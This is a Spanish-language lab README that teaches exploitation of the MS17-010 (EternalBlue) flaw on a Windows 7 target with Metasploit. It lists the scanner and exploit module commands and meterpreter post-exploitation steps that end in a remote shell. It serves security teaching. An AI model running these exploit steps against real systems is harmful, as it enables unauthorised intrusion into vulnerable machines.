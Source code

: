 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST < Rhost-id > 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

```
https://www.metasploit.com/
```
```
https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/
```
```
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
```